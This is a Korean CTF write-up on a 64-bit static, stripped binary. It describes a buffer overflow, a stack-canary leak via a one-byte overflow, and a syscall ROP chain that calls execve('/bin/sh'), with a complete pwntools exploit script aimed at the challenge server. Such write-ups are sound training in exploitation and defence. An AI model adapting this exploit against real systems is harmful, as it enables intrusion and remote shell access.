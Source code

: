 ```yaml
---
layout: post
title: 64bit srop write-up
---
```


64비트에서의 srop문제 라업

1. Binary

----------

![](https://lh3.googleusercontent.com/30jp43G1peSoaTKeRUwwDruSbj4XJPeXdRwlgoEQYvEM8t74hABaLQ7Q4WDndC1Lg2-E9BQp4O8OC0vYZPgorry0nXMVJLxgD9LXecK0zHWuh7E-SAZF1bJ3JgS7Cp2NbMG6ZENg)

이 바이너리는 ELF 64bit 파일입니다. static 컴파일이 되어 있었고, strip된 파일이였습니다.

static 컴파일과 strip이 되어있어서 분석이 어려웠지만 gdb로 흐름을 쫓으며 분석하였습니다.

2. Vulnerability

----------

메뉴 2. Edit message에서 message를 입력 받는데, 여기서 buffer overflow 취약점이 발생합니다.

![](https://lh4.googleusercontent.com/H-MRa7p21Sfj16r6UWCP2MjpzUMPzuZ5oYkht_fLMQtMFxwg0Fl84wgRW0G0BgSBTk0VF5pcbMGjCTOlaScz092GBhAOOiEWKYyG9txbLmaryCIApToHZjUBafx75bNfqiUHELnd)

세번째 인자인 edx 가 400으로 세팅 되어 있습니다. 이는 1024만큼 입력을 받을 수 있게 됩니다.

![](https://lh4.googleusercontent.com/ctjVB282zddqRF4IsuXfUfHozYMTmCx0QHQ22fE7D1EQn3_GSBLaKWIipt5h3ZwodEXIYtQ3M0y06fmZqkDnxU9cPp3WcE1RpHZecuIWxuWgnma01FRyk_-spAfRt1GVaTh-n5ST)

sys_input? 함수를 보면 eax를 0으로 세팅하고 syscall 하는 것을 볼 수 있습니다. 64비트에서 sys_read는 rax가 0으로 세팅되어있으면 호출 됩니다.

![](https://lh3.googleusercontent.com/tfVHbhAUepw4VzGzcN39FcCIvczecNigw48c509WBbZ3SczgkCY2t-2AOOE1NLZUb50jI10eYezeB_OhHzjz8VtCi3K4VaWvh3_6NNC7fbR6LRjzHn7rEN3n8ImHdsI0eWJPbtyt)

입력을 받는 v8변수는 bp - 0xd0 위치에 있으며 bp - 208 위치에 있습니다. 1024만큼 입력을 받을 수 있으니 bof가 가능합니다.

하지만 bp - 0x8 위치에 canary 변수가 있는 것을 확인 할 수 있었습니다. 하지만 이는 1. show 메뉴에서 leak이 가능했습니다.

3. exploit

----------

static 컴파일과 strip 이 되어있어서 일반적인 rop는 힘들어보였습니다. 다만 이 문제에서 syscall을 이용하기 때문에 관련된 정보를 공부하였고, syscall을 이용해 rop가 가능하다는 점을 알았습니다. canary가 활성화 되어있기 때문에 canary를 먼저 leak을 먼저 해준 다음, 다시 input에서 overflow로 rop해주면 되는 문제였습니다.

canary는 널바이트 + 7byte 이렇게 구성이 되는데, 1바이트를 overflow하면 문자열의 끝을 인식 못해 뒤에 바이트까지 leak이 됩니다.

syscall rop 같은 경우는 각 syscall rax number가 정해져있는데, 먼저 bss 영역에 “/bin/sh”을 적기 위해 인자 세팅 후 read(rax == 0) syscall; ret; 가젯으로 호출한뒤 chaining을 통해 rdi에 bss를 세팅하고 rsi에 0을 세팅 한 뒤 rax에는 execve의 rax number인 59를 세팅해 call 했습니다.

밑에는 exploit.py입니다.

>exploit.py

```python
from pwn import  *
#s = process("./rich")
s = remote("null2root.org", 1797)
e = ELF("./rich")
#context.log_level = 'debug'
gadget =  0x0045e395  # syscall ; ret
prdi =  0x00400535
prsi =  0x004017b7
prax =  0x0046dcb6  # pop rax ; pop rdx ; pop rbx ; ret
s.recvuntil("> ")
s.sendline("2")
s.recvuntil(": ")
leak_payload =  "A"*201
s.send(leak_payload)
s.recvuntil("> ")
s.sendline("1")
s.recvuntil("A"*201)
canary = u64("\x00"+s.recv(7))
log.success("canary : "+ hex(canary))
s.recvuntil("> ")
s.sendline("2")
s.recvuntil(": ")
payload =  "A"*200  + p64(canary)+"AAAAAAAA"
payload += p64(prdi)
payload += p64(0)
payload += p64(prsi)
payload += p64(e.bss())
payload += p64(prax)
payload += p64(0) + p64(0xff) + p64(0)
payload += p64(gadget)
payload += p64(prdi)
payload += p64(e.bss())
payload += p64(prsi)
payload += p64(0)
payload += p64(prax)
payload += p64(59) + p64(0) + p64(0)
payload += p64(gadget)
s.send(payload)
s.recvuntil("> ")
s.sendline("3")
s.recv()
s.send("/bin/sh\x00")
s.recv()
s.interactive()
```

![](https://lh3.googleusercontent.com/XnSyaezo4a0TPR0Q8EsAOcMO94Ui6efVoquawzhGbKUvS1SuVEc6MqmOE1QSLRS1DhEpptMjvTXyumtt96KpKBl6gDB0Yluo1LiXjb2WAnh01OHVbujpDNP6nt2QjFQ3uLxBt2Kf)

FLAG : n2r{enjoying_rich_rop_with_static_binary}

 


